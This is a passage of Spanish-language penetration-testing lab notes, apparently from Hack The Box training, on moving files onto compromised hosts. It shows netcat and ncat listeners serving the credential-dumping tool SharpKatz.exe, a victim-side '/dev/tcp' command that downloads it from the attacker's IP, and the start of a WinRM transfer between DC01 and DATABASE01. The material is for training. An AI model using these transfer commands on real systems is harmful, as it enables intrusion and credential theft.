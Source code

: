 ### **Netcat - Enviando Archivo como Entrada a Netcat**

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Netcat Original
sherlock28@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### **Ncat - Enviando Archivo como Entrada a Netcat**

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Ncat
sherlock28@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### **Máquina Comprometida Conectándose a Netcat Usando /dev/tcp para Recibir el Archivo**

```bash
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

> **Nota**: La misma operación puede utilizarse para transferir archivos desde el host comprometido hacia nuestro **Pwnbox**.

## Transferencia de Archivos en Sesión de PowerShell

Ya hablamos sobre realizar transferencias de archivos con PowerShell, pero puede haber escenarios donde HTTP, HTTPS o SMB no estén disponibles. En esos casos, podemos usar **PowerShell Remoting**, también conocido como **WinRM**, para realizar operaciones de transferencia de archivos.

**PowerShell Remoting** nos permite ejecutar scripts o comandos en un ordenador remoto utilizando sesiones de PowerShell. Los administradores suelen usar esta técnica para gestionar ordenadores remotos en una red, y nosotros también podemos utilizarla para transferir archivos. De forma predeterminada, habilitar PowerShell Remoting crea tanto un listener HTTP como uno HTTPS. Los listeners se ejecutan en los puertos TCP/5985 para HTTP y TCP/5986 para HTTPS.

Para crear una sesión de PowerShell Remoting en un ordenador remoto, necesitamos acceso administrativo, ser miembro del grupo de Usuarios de Gestión Remota, o tener permisos explícitos para PowerShell Remoting en la configuración de la sesión. Vamos a crear un ejemplo y transferir un archivo desde **DC01** a **DATABASE01**, y viceversa.

Tenemos una sesión como Administrador en **DC01**, el usuario tiene derechos administrativos sobre **DATABASE01**, y PowerShell Remoting está habilitado. Utilicemos `Test-NetConnection` para confirmar que podemos conectar a **WinRM**.

### **Desde DC01 - Confirmar que el puerto TCP 5985 de WinRM está abierto en DATABASE01**

```powershell
PS C:\htb> whoami
htb\administrator

PS C:\htb> hostname
DC01

PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```
